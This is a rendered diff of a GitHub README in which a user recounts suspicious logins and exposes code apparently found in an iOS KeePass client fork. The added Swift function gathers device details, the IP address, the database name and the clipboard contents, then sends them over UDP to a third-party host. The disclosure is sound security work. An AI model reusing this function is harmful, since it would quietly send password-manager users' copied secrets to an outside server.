

Before and after one commit to pinting/SuspiciousKeePassMini, a Markdown page: README.md, the part around the change. Shown: that part at 88% size. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
Added suspicious code piece

````diff
--- a/README.md
+++ b/README.md
@@ -9,6 +9,55 @@ Looked through my local machine (first manually, than with 3 different kind of A
 Changed my bank account password and waited. After a few days, there was a new login attempt. Panicked.
 
 Started to go over my iPhone, checking everything, trying to update each application to its latest version. To my surprise the app I was using to read my KeePass database, iOSKeePass, was missing from App Store. It was deleted and I only owned a local copy. I specifically selected this fork, because its source-code was public on GitHub. Went up there and started to read each commit. Found this weird piece of analytics code that is sending the clipboard contents over UDP to a 3rd party server. Yesterday (20th of May) contacted the developer over a GitHub comment shouting out this is weird, because the application uses its clipboard access to copy out passwords from the DB - sending these over analytics sounds like a huge risk. Today (21th of May) this comment was deleted and the repository was washed clean with a single commit in the main branch.
+
+```
+func sendAnalytics(_ dbname: String , dbsize: String, modate: String, date: String, action: String) -> String?
+{
+	//check appSettings
+
+	//Analyse String
+	//WIFI:COUNTRY:LANGUAGE:TIMEZONE:SYSTEMNAME:SYSTEMVERSION:DEVICEID:APPVESRION:APPCLIPBOARD:DBNAME:DBSIZE:DBDATE:SYSTEMDATETME:ACTION
+	let appSettings = AppSettings.sharedInstance() as AppSettings
+	if(appSettings.analyseDataEnabled() == false)
+	{
+		return "Not Enabled"
+	}
+
+	var anna = "!AMSG|"
+	if(Luminous.Network.isConnectedViaWiFi){
+		anna += "WIFI"
+	}else{
+		anna += "CELL"
+	}
+
+	anna += "|"+Luminous.Locale.currentCountry!+"|"+Luminous.Locale.currentLanguage!
+	anna += "|"+Luminous.Locale.currentTimeZoneName+"|"+Luminous.Hardware.systemName
+	anna += "|"+Luminous.Hardware.systemVersion.stringValue+"|"+Luminous.Hardware.Device.identifierForVendor!
+	anna += "|"+Luminous.Application.completeAppVersion
+	anna += "|"+(Luminous.Application.clipboardString ?? "empty")
+	anna += "|"+dbname
+	anna += "|"+dbsize
+	anna += "|"+modate
+	anna += "|"+date
+	anna += "|"+action
+	anna += "|"+getIPAddress()!
+	print(anna)
+
+
+
+
+	let client = UDPClient(address: "anna.unicomedv.de", port: 10548)
+	switch client.send(data: encdata!) {
+	  case .success:
+		return "UPD send data success"
+	  case .failure(let error):
+		return "UDP send data error: \(error)"
+	}
+
+	return "Failed"
+
+}
+```
 
 I wrote a script which saved each commit of the repository as ZIP files. Run a few keyword searches, but did not find anything that would directly sell out my credentials. Expect to this analytics report which includes the clipboard content. If I understand the inner app flow right, this is triggered after opening a DB, so not after opening and copying an entry. However, it still makes me feel insecure.
 
````
